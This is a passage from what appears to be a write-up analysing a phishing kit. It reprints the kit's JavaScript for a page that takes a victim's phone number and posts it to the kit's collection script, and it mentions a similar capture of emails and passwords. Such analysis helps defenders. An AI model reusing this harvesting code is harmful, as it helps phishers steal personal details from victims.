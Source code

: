 ```Javascript
      window.location = './loader.php';
			
		})
	})
</script>
```

Similar to the Javascript snippet shown above, the victim's email and password is POSTed to `./auth/engine.php`, though with a different value for `loader`. We are unsure but this may be signing the email up for further scam emails or the like.

## phone.php

<img src="Asset06-phone.png" width="75%" height="75%"><br/>

Similar to `email.php`, this site phishes for the victim's mobile number.

### phone.php (Javascript)

```Javascript
<script>
	const f4 = document.getElementById("form5");
	f4.addEventListener("submit", e => {
		//alert("hello");
		e.preventDefault();

		document.getElementById("lbtn").innerHTML = "Processing...";
		var phone = f4['phone'].value;
		//var pass = f4['passemail'].value;
		//
    
    if(phone == ""){
      //
      var iserror = document.getElementById("errormsg1");
			iserror.innerHTML ="Oops! *Enter your phone number";
			iserror.style.display ='block';
			iserror.style.color ='red';
			document.getElementById("lbtn").innerHTML = "Next";
			return;
    }
		
		$.post("./auth/engine.php", {
			loader: "phone",
			phone: phone,
      id: ,
			status: 1
		}, function (data, resp) {
      window.location = './loader.php';
			
		})
	})
</script>
```
